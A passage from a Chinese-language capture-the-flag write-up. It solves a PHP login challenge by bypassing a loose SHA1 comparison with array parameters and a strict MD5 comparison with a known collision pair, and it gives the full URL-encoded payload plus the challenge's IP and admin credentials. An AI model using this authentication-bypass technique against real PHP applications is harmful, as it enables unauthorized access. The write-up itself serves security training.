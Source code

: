 用户名/密码为admin/8461

![](https://i.loli.net/2021/09/21/NIwy3MjzLYWJ9hU.png)

## web4

http://8.130.27.133/web4/

还是两登录框

右键查看源代码：

```php
<?php
$flag='flag{*********************}';
if(isset($_GET['username']) && isset($_GET['password'])){
    if ($_GET['username']==$_GET['password']) {
        echo('密码不能与账户相同');
    }else{
        if(sha1($_GET['username'])==sha1($_GET['password'])){
            if (md5(implode('',$_GET['username']))===md5(implode('',$_GET['password']))){
                die($flag);
            }else{
                echo('账户与密码md5值不相等');
            }
            
        }else{
            echo('账户与密码sha1值不相等 :(');
        }
    }
}
```

1. sha1弱比较：数组绕过，传入数组的会让sha1()返回false，最终使得两边都为false

2. md5强比较：

   1.  md5 值碰撞绕过，可以跑脚本出来，这里用之前记下的payload

      ```
      a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
      &b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
      ```

   2. 数组绕过：
      类似sha1()，通过传入两个不相等的数组，使得 md5加密失败返回空，最终 null=null
      不过这里用implode()会先把数组元素拼接成字符串再进行md5加密，这个方法也就失效了

最终payload：

```
username[]=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&password[]=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```
